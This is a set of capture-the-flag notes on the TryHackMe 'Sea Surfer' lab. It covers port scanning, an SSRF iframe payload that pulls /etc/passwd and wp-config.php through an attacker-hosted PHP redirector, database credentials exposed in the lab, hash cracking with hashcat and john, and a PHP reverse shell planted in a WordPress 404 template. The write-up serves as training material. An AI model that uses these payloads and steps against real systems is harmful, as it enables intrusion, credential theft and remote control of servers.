 https://tryhackme.com/room/seasurfer

https://nananan.github.io/posts/seasurfer/

https://github.com/lassidev/writeups/blob/main/TryHackMe/Sea%20Surfer.md


```
┌──(kali㉿kali)-[~/thm/seasurfer]
└─$ nmap -sC -sV 10.10.90.23          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-31 07:03 +0630
Nmap scan report for 10.10.90.23
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87e3d432cd51d29670ef5f482250ab67 (RSA)
|   256 27d137b0c53cb5816a7c368a2b639ab9 (ECDSA)
|_  256 7f131bcfe64551b909439a232f503c94 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.10 seconds
```

![[Pasted image 20230531071805.png]]

```
echo "10.10.90.23 seasurfer.thm" | sudo tee -a /etc/hosts
```

http://seasurfer.thm/

![[Pasted image 20230531072102.png]]

http://internal.seasurfer.thm/

![[Pasted image 20230531201310.png]]

```
<?php
$loc = "http://127.0.0.1/";
if(isset($_GET['a'])){
$loc = $_GET['a']; 
}
header('Location: '.$loc);
?>
```

```
php -S 0.0.0.0:80
```

![[Pasted image 20230531203229.png]]


```
<iframe height=2000 width=1000 src="http://ATTACKER_IP/ssrf.php?a=file:///var/www/wordpress/wp-config.php">
```

```
<iframe height=2000 width=1000 src="http://10.17.44.152/ssrf.php?a=file:///etc/passwd">
```

![[Pasted image 20230531203409.png]]

![[Pasted image 20230531203605.png]]

![[Pasted image 20230531203649.png]]


```
<iframe height=2000 width=1000 src="http://10.17.44.152/ssrf.php?a=file:///var/www/wordpress/wp-config.php">
```

![[Pasted image 20230531202224.png]]



![[Pasted image 20230531203936.png]]

![[Pasted image 20230531204517.png]]

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -e -k -b 404 -u http://seasurfer.thm
```

![[Pasted image 20230531213604.png]]

http://seasurfer.thm/adminer/

```
/ ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wordpressuser' );
/** Database password */
define( 'DB_PASSWORD', 'coolDataTablesMan' );
/** Database hostname */
define( 'DB_HOST', 'localhost' );
```

![[Pasted image 20230531213847.png]]

http://seasurfer.thm/adminer/?server=localhost&username=wordpressuser&db=wordpress

![[Pasted image 20230531213931.png]]

```
hashid -m '$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/'
```

![[Pasted image 20230531214458.png]]

```
hashcat -m 400 '$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/' /usr/share/wordlists/rockyou.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt kyle_wp.hash
```

![[Pasted image 20230531215717.png]]

http://seasurfer.thm/wp-login.php

```
kyle : jenny4ever
```

http://seasurfer.thm/wp-login.php?redirect_to=http%3A%2F%2Fseasurfer.thm%2Fwp-admin%2F&action=confirm_admin_email&wp_lang=en_US

![[Pasted image 20230531215902.png]]

![[Pasted image 20230531215926.png]]

```
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ locate php-reverse-shell.php       
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ 
```

```
┌──(kali㉿kali)-[~/www]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

┌──(kali㉿kali)-[~/www]
└─$ ll
total 16
-rwxr-xr-x 1 kali kali 5491 May 31 22:04 php-reverse-shell.php
-rw-r--r-- 1 kali kali   12 May 13 13:14 test.html
-rw-r--r-- 1 kali kali   12 May 13 13:15 test.txt                                                         
┌──(kali㉿kali)-[~/www]
└─$
```

![[Pasted image 20230531220820.png]]

http://seasurfer.thm/i-am-not-existed-page *To response 404.php page and get PHP reverse shell.*

![[Pasted image 20230531221048.png]]

